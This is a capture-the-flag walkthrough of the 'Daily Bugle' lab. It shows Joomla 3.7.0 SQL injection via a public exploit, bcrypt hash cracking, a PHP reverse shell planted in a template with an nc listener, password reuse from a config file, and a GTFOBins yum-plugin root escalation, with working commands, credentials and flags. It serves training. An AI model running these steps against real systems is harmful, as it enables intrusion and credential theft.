

# Daily Bugle

## Description
Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

# [Task 1] Deploy

We start with an Nmap scan and it shows three open ports:
* 22 ssh
* 80 http
* 3306 mysql

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
~~~

I start with enumerating the web page. Right after opening the web page we see a title saying "Spider-Man robs bank!" which is the answer of the first question.

Who robbed the bank: `Spiderman`

# [Task 2] Obtain user and root

Now we can move on with the enumeration. I ran gobuster and found many directories and files but the one that was useful was `README.txt` which gives us the joomla version which is 3.7:

~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle]
└─$ curl -s http://10.10.74.217:80/README.txt | head
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master

2- What is Joomla?
	* Joomla! is a Content Management System (CMS) which enables you to build Web sites and powerful online applications.
	* It's a free and Open Source software, distributed under the GNU General Public License version 2 or later.
	* This is a simple and powerful web server application and it requires a server with PHP and either MySQL, PostgreSQL or SQL Server to run.
~~~

Running `joomscan` wiuld reveal the full version which is 3.7.0:

~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle]
└─$ joomscan --url http://$IP:80/

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.74.217:80/ ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[REDACTED]

~~~

Joomla version: `3.7.0`

## Exploit

Now that we have the full version, we can search for an exploit. I found a python exploit [here](https://github.com/stefanlucas/Exploit-Joomla). (You can also find it in the "[files](./files/joomblah.py)" directory.) After running the exploit, we get a username (`jonah`) and his password hash.

~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ python2 joomblah.py http://$IP:80                                                                             1 ⨯
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
~~~

I saved the hash in a file called "johan.hash" and cracked it using john and rockyou wordlist:

~~~
john jonah.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:06:01 DONE (2021-09-25 03:01) 0.002762g/s 129.3p/s 129.3c/s 129.3C/s thebadboy..spaceship
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Jonah's password: `spiderman123`

## User Flag

I used the creds to login to admin panel from `/administrator/` and now I can change the one of the files to a reverse shell and gain a shell. I went to `Extentions > Templates > Templates` and chose the first one and from the list on the left I chose *index.php* and changed it to a php reverse shell which you can get it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). (Don't forget to cahnge the IP and port you want to get the shell on.) Then I clicked on `Save` and started a listener and then called the shell:

listener:
~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...

~~~

called the shell:
~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ curl http://10.10.74.217:80/templates/beez3/index.php

~~~

And now we have a shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.135] from (UNKNOWN) [10.10.74.217] 54438
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:33:24 up  1:32,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
id
id
uid=48(apache) gid=48(apache) groups=48(apache)
sh-4.2$
~~~

Now I need to escalate my privilege. first I checked `/home` to find users and the only user is `jjameson`. I checked `/var/www/html/configuration.php` and found the password for the database.

~~~
sh-4.2$ cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance. Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';

    [REDACTED]
~~~

password: `nv5uz9r3ZEDzVjNu`

It was worth to try the database password for the user I found, and luckily it worked. I spawned a shell using a simple python code and found the user flag in jjameson's home directory.

~~~
sh-4.2$ su jjameson
password: nv5uz9r3ZEDzVjNu

$ id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
$ whoami
jjameson

$ python -c "import pty;pty.spawn('/bin/bash')"

[jjameson@dailybugle ~]$ cd
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
~~~

User flag: `27a260fe3cba712cfdedb1c86d80442e`

## Root Flag

Now that we have the creds (`jjameson:nv5uz9r3ZEDzVjNu`), we can leave our reverse shell and directly connenct to SSH and the first thing I check is my sudo permission:
~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ ssh jjameson@10.10.74.217                                                                                   130 ⨯
jjameson@10.10.74.217's password: 
Last login: Sat Sep 25 03:56:45 2021 from ip-10-9-0-135.eu-west-1.compute.internal
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ 
~~~

We can run `yum` as sudo with no password. I checked [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo) for yum and there are two privesc with yum. I tried one of them and it worked:

~~~
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79
~~~

Root Flag: `eec3d53292b1821868266858d7fa6f79`

# D0N3!  ; )

Thanks to the creators of this room!

Hope you had fun hacking adn have a good one!  : )
